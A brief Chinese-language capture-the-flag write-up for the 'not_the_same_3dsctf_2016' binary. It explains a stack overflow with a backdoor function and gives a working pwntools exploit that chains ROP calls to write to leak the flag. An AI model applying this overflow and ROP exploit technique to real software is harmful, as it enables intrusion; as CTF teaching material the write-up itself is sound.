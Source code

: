# 知识点

ret2text、write



# 题目分析

1. 查看保护情况，32位程序，开启NX保护。

   ```bash
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，发现存在栈溢出漏洞。

   ![ida1](./isset/ida1.png)

3. 继续分析，发现存在后门函数。但是只将flag读入到全局变量f14g中，没有输出。

   ![ida2](./isset/ida2.png)

4. 继续分析，发现程序提供了write函数。我们可以利用ROP将全局变量内容输出。



# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./not_the_same_3dsctf_2016')
elf = ELF('./not_the_same_3dsctf_2016')

backdoor = 0x080489A0
write = elf.sym['write']
flag = 0x080ECA2D

payload = 'A' * 0x2D + p32(backdoor) + p32(write) + p32(0) + p32(1) + p32(flag) + p32(45)
io.sendline(payload)

io.interactive()
```

